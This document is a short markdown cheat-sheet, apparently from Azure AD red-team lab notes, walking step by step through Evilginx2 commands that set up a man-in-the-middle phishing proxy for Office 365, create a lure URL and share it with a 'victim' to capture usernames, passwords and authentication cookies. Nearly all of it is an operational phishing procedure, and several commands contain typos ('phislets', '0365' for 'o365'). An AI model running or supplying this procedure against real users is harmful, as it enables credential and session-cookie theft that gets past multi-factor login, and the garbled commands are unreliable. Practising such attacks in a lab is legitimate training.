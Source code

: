 ## Phishing Evilginx2
- https://github.com/kgretzky/evilginx2
- Evilginx acts as a relay/man-in-the-middle between the legit web page and the target user. The user always interacts with the legit website and Evilginx captures usernames, passwords and authentication cookies.

#### Start evilgix2
```
evilginx2 -p C:\AzAD\Tools\evilginx2\phishlets
```

#### Configure the domain
```
config domain studentx.corp
```

#### Set the IP for the evilginx server
```
config ip xx.xx.xx.xx
```

#### Use the template for office365
```
phishlets hostname o365 <DOMAIN>
```

#### Verify the DNS entries
```
phishlets get-hosts o365
```

#### Copy the certificate and private key
0365.cr and 0365.key from ```C:\studentx\.evilginx\crt``` to ```C:\studentx\.evilginx\crt\login.studentx.corp```

#### Enable phishlets
```
phislets enable 0365
```

#### Create the phishing URL (Tied to an ID)
```
lures create 0365
```

#### Get the phishing URL
- Share the phishing URL with the victim
```
lures get-url <ID>
```
